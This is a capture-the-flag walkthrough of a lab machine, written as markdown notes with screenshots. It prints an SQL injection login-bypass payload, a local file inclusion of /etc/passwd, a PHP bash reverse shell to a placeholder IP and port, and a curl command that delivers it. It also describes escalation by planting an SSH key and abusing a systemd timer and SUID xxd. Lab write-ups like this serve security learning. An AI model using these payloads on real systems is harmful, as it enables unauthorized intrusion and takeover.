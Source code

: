 ```yaml
---
sticker: emoji//1f9c0
---
```


![](../images/Pasted%20image%2020240927153835.png)
This CTF contains a port scanning "block" method, since it show a lot of open ports in which most of services, are unavailable, for our luck, port 80 is open and has a login page:

![](../images/Pasted%20image%2020240927153919.png)
I tried different things such as `XSS` `LFI` `PATH TRAVERSAL` `BRUTEFORCE` and more, then when i tried `SQLI` I found a path to exploit, after trying multiple payloads, got with this one that worked for me:

`' || '1'='1';-- -`

Had to URL encode it:

`%27%20%7C%7C%20%271%27%3D%271%27%3B--%20-`

And it showed the following output:

![](../images/Pasted%20image%2020240927154104.png)

That location seems fun, lets visit it:

We got admin panel even without credentials:

![](../images/Pasted%20image%2020240927154210.png)
After looking for a while, I found that the request for messages, got me this message:

![](../images/Pasted%20image%2020240927154349.png)

Let's visit it:

![](../images/Pasted%20image%2020240927154523.png)

Nothing too useful, but then, looking at the URL I thought about a `LFI`, when i sent the request, i got this:

![](../images/Pasted%20image%2020240927154621.png)
I was able to read `etc/passwd` file, this website is vulnerable to `LFI`, let's get a reverse shell:

For this, i will be using the following tool:

```github
https://github.com/synacktiv/php_filter_chain_generator/blob/main/php_filter_chain_generator.py`
```

Also, a simple php reverse shell, i will store it in a file called payload.txt: 

```php
"<?php exec('/bin/bash -c \"bash -i >& /dev/tcp/IP/PORT 0>&1\"'); ?>" | grep "^php" > payload.txt
```

Now, let's send the reverse shell and establish a connection to our machine:

###### Sending the payload
`curl "http://10.10.142.162/secret-script.php?file=$(cat payload.txt)"`

![](../images/Pasted%20image%2020240927160128.png)


![](../images/Pasted%20image%2020240927160136.png)
We got our reverse shell, let's make it stable using the [[STABLE SHELL|shell tricks]]::

![](../images/Pasted%20image%2020240927160349.png)
Now, we have an stable shell, let's look for privesc:

![](../images/Pasted%20image%2020240927160513.png)
We cannot read user.txt contents neither use sudo -l due to the lack of the password for the user, let's look at SUID files:

![](../images/Pasted%20image%2020240927160551.png)

Nothing useful too, let's keep enumerating the machine:

![](../images/Pasted%20image%2020240927160737.png)
in `/home/comte/.ssh` we can read and write authorized keys, let's put ours:

![](../images/Pasted%20image%2020240927161025.png)
![](../images/Pasted%20image%2020240927161221.png)
I could enter ssh using my own key, let's read that `user.txt` file:

![](../images/Pasted%20image%2020240927161301.png)\

For privilege escalation we have this sudo permissions:

![](../images/Pasted%20image%2020240927161701.png)
When i read the `exploit.timer` file, I see this:

![](../images/Pasted%20image%2020240927161722.png)
Let's change the `OnBootSec` to 5 seconds and enable the service to see what it does:

![](../images/Pasted%20image%2020240927161803.png)
![](../images/Pasted%20image%2020240927162007.png)
Once I did this, I found that a new binary was added to the 4000 UID binaries, let's exploit `xxd` to gain root shell:

![](../images/Pasted%20image%2020240927162104.png)

![](../images/Pasted%20image%2020240927162740.png)
Now, i got root authorized key access:

![](../images/Pasted%20image%2020240927162817.png)
just like that, machine is done:

![](../images/Pasted%20image%2020240927162856.png)


